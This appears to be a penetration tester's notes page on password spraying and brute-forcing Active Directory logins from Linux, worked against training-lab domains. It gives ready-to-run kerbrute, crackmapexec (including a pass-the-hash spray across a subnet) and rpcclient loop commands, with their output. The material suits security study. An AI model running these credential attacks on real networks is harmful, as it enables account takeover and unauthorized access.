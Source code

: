 ```yaml
---
description: >-
  This page is for password spraying when we have access to a Linux host inside
  the internal network.
---
```


# Brute Force / Password Spraying - Linux Tools

***

## Kerbrute

<mark style="color:yellow;">**Kerbrute is a great tool if we don't have a username:password yet**</mark>, but we want to attempt to brute force our way in. We can brute force usernames or passwords... as well as spray a discovered credential.

```
$ ./kerbrute -h

 


Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit
```

### Spray Password

If we discover a credential, we can spray it against known users.

```shell-session
attacker@kali$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds\
```

### Password Brute Force

If we have discovered usernames but no password, we can try to brute force valid credentials.

```shell-session
attacker@kali$ kerbrute bruteuser --dc intelligence.htb -d intelligene.htb /usr/share/wordlists/rockyou.txt William.Lee

   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88
```



### Username Brute Force

If we don't have anything, we try to find valid kerberos usernames with a usernames wordlist.

```shell-session
attacker@kali$ kerbrute userenum usernames.txt --dc intelligence.htb -d intelligence.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/24 - Ronnie Flathers @ropnop

2024/02/08 15:31:14 >  Using KDC(s):
2024/02/08 15:31:14 >   intelligence.htb:88

2024/02/08 15:31:14 >  [+] VALID USERNAME:       Veronica.Patel@intelligence.htb
2024/02/08 15:31:14 >  [+] VALID USERNAME:       William.Lee@intelligence.htb
2024/02/08 15:31:14 >  [+] VALID USERNAME:       Scott.Scott@intelligence.htb
2024/02/08 15:31:14 >  [+] VALID USERNAME:       David.Reed@intelligence.htb

```

## CrackMapExec

### Password Spray / Brute Force

We can use crackmapexec to brute force passwords, usernames, and spray when we discover a new credential. It is an invaluable tool to have in our toolbox.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
</strong>
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
</code></pre>

### **CrackMapExec --local-auth**

<mark style="color:yellow;">**It's important to always test for local windows authentication as well as domain authentication when discovering a password**</mark>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
</strong>
SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
</code></pre>



## rpcclient

**Using a Bash one-liner for the Attack**

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
